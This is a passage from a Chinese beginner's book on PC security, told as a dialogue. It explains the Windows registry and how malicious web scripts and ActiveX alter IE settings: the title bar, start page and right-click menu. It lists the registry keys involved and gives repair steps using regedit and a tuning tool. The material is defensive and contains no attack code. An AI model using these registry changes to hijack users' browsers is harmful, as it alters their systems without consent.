榕哥说：“这一切都是某些网站通过恶意代码对你进行的攻击造成的。恶意代码你知道是什么吧？不知道？我告诉你。恶意代码是——等一下，我们把问题扩展一下吧。你刚才在浏览网页对吧，那你知道网页是怎么做的吗？为什么你可以打开浏览器，写上网站的地址就可以看到好多好玩东西呢？事情是这样的，所有的网页其实都是存放在世界各地电脑上的，存放这些网页并让人浏览的电脑就是网站。”

阿瓜说：“这么简单，那么这里的电脑也可……”


“以做网站吗？”榕哥说：“可以。网站上存放的网页是有代码支持的，就是说，需要编一些程序来实现网页提供的功能。这些代码功能很强，甚至可以更改浏览网页的用户的电脑系统设置。我们把这些未经同意就擅自更改上网用户系统设置的代码就叫做恶意代码。”榕哥啜了一口冰激凌，仔细地品尝了一下滋味后，说道：“你刚才遇到的鬼就是这种恶意代码鬼。”阿瓜说：“那怎么抓鬼啊？”榕哥说：“你别着急，听我慢慢给你说。”

### 3.1 问题的根本——注册表

阿瓜给榕哥要了一杯茶，榕哥坐在电脑桌前，先悠闲地喝了一口茶（阿瓜傻呆一旁，心却想：真想 K 榕哥一百遍，再来一百遍），然后开始讲起来。

#### 3.1.1 注册表的由来

关于注册表有一个古老的传说。传说在很久很久以前的 DOS 操作系统时代，用户与硬件软件之间的深入接触十分困难，软硬件的配置不是一般人所能够掌握的。为了让更多的用户直接配置自己的电脑，在早期的图形操作系统 Win3.x 开始，加入了扩展名为 .ini 的配置文件，目的是让操作系统自己配置软硬件，由此也为用户个人设置个性化的软硬件工作环境提供了接口，在一定程度上满足了人们的要求。

但是 .ini 文件管理起来很不方便，而且每种设备或应用程序都得有自己的 INI 文件。并且到了网络化、远程化的时代以后，ini 文件不能让用户以网络访问来实现远程配置机器。

随着时间的推移，人们为了克服上述问题，终于从 Windows 95 开始引入了“注册表”概念，将各种软硬件信息集中起来并存储到“注册表”文件中，以“注册表”的形式统一管理软硬件的配置信息，如硬件设备说明、状态属性、各种状态数据及应用程序和程序文件的关联等等。

换句话来说，注册表实际上就是电脑的“户口簿”，里面记录了在电脑中居住的所有硬件和软件的“姓名”“性别”“出身”“身高”“脾性”等诸如此类的信息。

阿瓜听完后，点点头说：“原来注册表就是一个记录表啊。那么它有什么特点呢？”

#### 3.1.2 注册表的特点

榕哥说道：“根据我的体会，注册表的特点有下面这几点：”

- 以二进制的形式记录有关软硬件信息，在同一个操作系统中存储多个用户信息。就是说，每个使用电脑的用户都可以在电脑的注册表里留下自己的信息。
- 给予用户对硬件、系统参数、应用程序和设备驱动程序进行配置的权限，就是说自己管自己的事，不能干涉别人的生活。其中有些设置修改后可以不用重新启动。
- 记录的硬件数据支持高版本 Windows 的即插即用特性，随时记录检测到的新设备。注册表很聪明，会监视电脑里各个成员的变化，如果有新成员来到，它会随时记录下来。
- 允许用户通过注册表远程查看与设置系统的配置。



3-1-1 注册表编辑器图



3-1-2 Windows 下最常用的注册表工具

就是 Windows 自带的“注册表编辑器”（如图 3-1-1）。可以在开始菜单的“运行”命令对话框中键入“regedit”回车，便运行了注册表编辑器；如图 3-1-2 所示。

#### 3.1.3 注册表的文件组成

注册表实际上是文件。在 Windows 98/Me 中，注册表 registry 放在 Windows 目录下，主要由两个文件组成。这两个文件分别是系统配置注册表文件 System.dat、用户平台配置注册表文件 User.dat。

#### 3.1.4 注册表的键值项数据

榕哥嗅了一下茶香，又继续讲。注册表通过键和子键来管理计算机，键是关键的“键”，是标识的意思。每个键都有相应的键值，键值所包含的信息就是系统的一些设置。在 Win 98/Me 中键值项数据可分为三种类型：字符串值、二进制值、DWORD 值，如图 3-1-3 所示中被选中的三项。在图中未被选中的另外两项只出现在 Win 2000/NT 或者 Win XP 中。

浏览器为了使网页更具有互动性，支持在 HTML 中嵌入 Java 小程序（Applet）以及 JavaScript 或者 ActiveX。虽然 Java 对 Applet 的安全做出了限制，但由于浏览器或语言漏洞的原因，当它与功能比较强大的脚本语言结合时，这些小应用程序常可凭借正常或诡秘的手段对用户的机器进行修改，比如修改注册表、运行相关的 DOS 命令、在用户机器上安装木马或激活相关的应用程序，其功能之强大远非单纯的网页所能胜任了。另外，还有一种嵌入式应用程序就是 ActiveX，是微软的一种插件技术，也可以像 Applet 一样进行一些针对本机的操作。



3-1-3 只存在于 Win NT/2000/XP 注册表中的两种键

> 俊瓜提示：关于注册表更系统的知识，此处相关书籍有专门的论述。

榕哥对阿瓜说：“这个嘛……关于注册表就这些基础，这些你弄明白了，我下面说的你就好理解了。”

### 3.2 飞进来的是什么——各种恶意修改方法与修复方法

榕哥说道：“注册表允许用户自己修改软硬件配置，确实为个人带来了不少便利之处，它的远程控制更是深受系统管理员的欢心。但是，也因此为恶意修改者造就了可入侵的后门，利用插入网页中的 Script 脚本和 ActiveX 来进行攻击！攻击的效果你看到了。你刚才遇到的情况就是受攻击的表现之一。”

阿瓜说道：“原来如此。”

榕哥说道：“传统的 HTML 语法并不具备对本机设置（主要是注册表）进行更改的能力，那么网页攻击是怎么实现的呢？秘诀就在于 IE 浏览器为了使网页更具有互动性……”

> 俊瓜提示：由于本书并不专门介绍网络编程，而且网络编程需要一定的基础，限于篇幅，相关的语法、结构我们就不做过多地介绍。对此方面有兴趣的读者可以查阅相关书籍。

榕哥看了阿瓜一眼说：“你没学过做网页，你要理解这些可能有些困难。这样吧，我举些具体的例子讲给你听。以下所举的例子，几乎包含了全部利用网页对本机设置进行恶意修改的手法，其中自然有以上介绍的对 IE 浏览器的修改，也包括了利用非法获得的注册表修改权限，对 Windows 本机设置的修改。这些攻击对上网用户的威胁是很大的。”

阿瓜说：“那我得好好听听，免得中招。”

榕哥说：“好，我们先说修改 IE 浏览器的问题。”

修改注册表中关于 IE 浏览器的各个键值，就可以达到修改 IE 浏览器的目的。大致上常见的方法有：

- 修改 IE 浏览器标题栏，把缺省或者用户设定的标题改成浏览网站的标题。
- 把 IE 缺省主页改变为浏览网站的网址。
- 修改 IE 右键菜单，把自己网站的网址加到右键菜单上。
- 使在 Windows 启动时弹出一个窗口，必须点击才能进入 Windows，并且自动调出 IE，访问某个网站。
- 修改 IE 浏览器缺省主页，并且锁定设置项，禁止用户更改回来。
- 锁定注册表编辑器。
- 使硬盘被共享。

阿瓜心想：“原来里面有这么多学问。”

### 3.2.1 给你的窗口起个名字——修改 IE 浏览器标题栏

> 傻瓜提示：修改标题栏主要是修改了注册表中有关 IE 设置的下面这些键值。

- `[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]`  
  `"Window Title"="IE 浏览器标题"`
- `[HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main]`  
  `"Window Title"="IE 浏览器标题"`
- `[HKEY_USERS\.DEFAULT\Software\Microsoft\Internet Explorer\Main]`  
  `"Window Title"="IE 浏览器标题"`

图 3-2-1 中所示的就是对 `[HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main]` 注册表项进行的修改。



3-2-1 被修改的注册表项

修改后的效果如图 3-2-2，注意浏览器的标题。

修复方法：在注册表编辑器中找到相应的键值，删除它即可。

> 傻瓜诀窍：同样的原理，我们可以修改这个键值，改成我们喜爱的文字来个性化自己的 IE 浏览器。

> 傻瓜提示：注册表包含使 Windows 正常工作需要的数据和信息，对注册表的直接修改有可能导致注册表损坏、系统无法正常启动。因此，每次修改注册表前最好先对注册表进行备份，以便在系统无法正常工作时还原注册表。



3-2-2 修改后的效果示意图

榕哥说：“目前有很多使用很方便的软件可以帮助我们对简单的恶意修改进行恢复，以下就以‘超级兔子魔法设置’这一款流行的设置软件为例，介绍使用工具软件进行修复的方法。”

榕哥对阿瓜说：“超级兔子魔法设置软件是一个系统设置软件，能够以修改系统注册表等操作来达到大家的要求，是国内出现较早而且目前常见、常用的优秀系统设置软件。对应微软公司新推出的操作系统 Windows XP，‘超级兔子魔法设置’目前最新的版本为‘超级兔子魔法设置 2002（市面上有‘超级兔子魔法设置’光盘卖哦，才 25 元，超值）’，我们就用这个软件。”

> 傻瓜提示：除特别说明，本节中使用的系统设置软件均为“超级兔子魔法设置 2002”，其它版本的“超级兔子魔法设置”与其它设置软件的操作方法也大致与本节介绍的相同。


3-2-3 “超级兔子魔法设置”的主界面



榕哥指着电脑上的界面说：“上面的就是‘超级兔子魔法设置’的主界面，和本例相关的设置项为‘IE 浏览器’。点击‘IE 浏览器’图标进入设置页。”

榕哥继续：“系统弹出的窗口如图 3-2-4。我们可以看到相关的 IE 标题设置项。只要点击右边的‘复原’，按‘保存’按钮，即可恢复。”

> 对 IE 设置的修改，往往需要重新启动 IE 浏览器，在某些机器上甚至需要重新启动计算机方能生效。

### 3.2.2 换掉你的烦恼——修改 IE 默认主页

它主要是修改了注册表中有关 IE 设置的以下这几个键值（如图 3-2-5）：

```
1. [HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]
   "Start Page"="about:blank"
2. [HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main]
   "Start Page"="about:blank"
3. [HKEY_USERS\.DEFAULT\Software\Microsoft\Internet Explorer\Main]
   "Start Page"="about:blank"
```



**修复方法：**在注册表编辑器中找到相应的键值，删除它即可。或者，打开 IE 浏览器，在菜单栏中选择“工具”→“Internet 选项”，在弹出的对话框中可以看见“主页”设置选项，点击“使用当前页”即将默认主页设置为当前正在浏览的页面；点击“使用默认页”，默认主页将设置为 IE 浏览器的默认页面（一般为 Microsoft 公司主页）；点击“使用空白页”将把默认主页设置为空白页，如图 3-2-6 所示。

> 有时候在 IE 浏览器中被修改的主页设置并不能修复被恶意代码改过的主页设置，这时只有手工对注册表进行修改，或者使用下面介绍的工具软件进行修复。




3-2-6 在“Internet 选项”的“常规”页中，可以更改默认主页的设置

阿瓜心想：“原来如此，难怪改不过来啊。”

榕哥又说道：“使用超级兔子魔法设置也可以修复被修改的主页设置。同样在‘IE 浏览器’下，参照图 3-2-4，点击‘IE 默认打开的网页’右边的‘使用空白页’可以将默认主页设置为空白页。你也可以在相应位置输入你希望成为默认主页的网页地址，完成后点击窗口右下角的‘保存’按钮保存设置并退出。”

## 3.2.3 给你贴上窗花好吗——修改 IE 右键菜单

它主要是通过对注册表中有关 IE 设置的以下键值进行修改来实现的：

```reg
[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt]
```

在 IE 中显示的附加右键菜单都在这里设置。

> 傻瓜提示：这种方法很少有人使用，不过，作为对 IE 浏览器修改的一个方向，仍然值得介绍一下。

修改前后的 IE 右键菜单对比如图 3-2-7 和图 3-2-8。从对比的两图中可以看出，图 3-2-8 为修改后的效果，注意被框出的部分，原本并没有在菜单中出现。修复方法：在注册表中找到相应主键，删除即可，如图 3-2-9 所示。

同样我们也可以使用“超级兔子魔法设置”修复。启动兔子魔法，点击 IE 图标按钮，在弹出的窗口左上方有一个“+”按钮，点击此按钮两次即可进入到 IE 的深入设置窗口（图 3-2-10）。在“IE5 的新增右键菜单”栏把 IE 的相应附加右键菜单项删除，然后点击“保存”按钮确定修改，如图 3-2-11。



